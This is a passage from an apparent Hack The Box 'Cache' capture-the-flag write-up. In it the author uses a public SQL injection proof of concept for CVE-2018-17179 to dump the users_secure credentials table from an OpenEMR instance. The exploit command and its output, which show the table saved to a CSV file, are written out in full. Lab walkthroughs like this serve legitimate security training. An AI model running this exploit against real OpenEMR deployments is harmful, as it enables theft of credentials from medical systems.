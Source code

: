 ![htb_cache_oemr.png](../assets/cache_assets/htb_cache_oemr.png)

But unfortunately ash's password discovered earlier does not work here, nor do the OpenEMR defaults `admin:pass`.

### Exploitation

Looking for exploits against OpenEMR I find this SQL injection poc:

https://github.com/M3str3/OpenEMR-exploits/tree/main/sql%20injection/cve-2018-17179

Let's give it a shot.

First I'll google which table OpenEMR creds are usually stored in, that way we won't have to wait for the whole DB to dump:

```
"In OpenEMR, user passwords, along with other user-related information, are stored in the users_secure table"
```
We can then run:

```
┌──(ryan㉿kali)-[~/HTB/Cache]
└─$ python exploit.py -t hms.htb --table users_secure
============================================================
          Proof of Concept - CVE-2018-17179
          IMF Master Cybersecurity Deloitte Online
          Author: M3str3 <namestre3@protonmail.com>
============================================================
[*] Trying to detect installed version
[*] Version 5.0.1 detected

[*] data/users_secure.csv saved!!
[*] Time lapsed: 350s
```
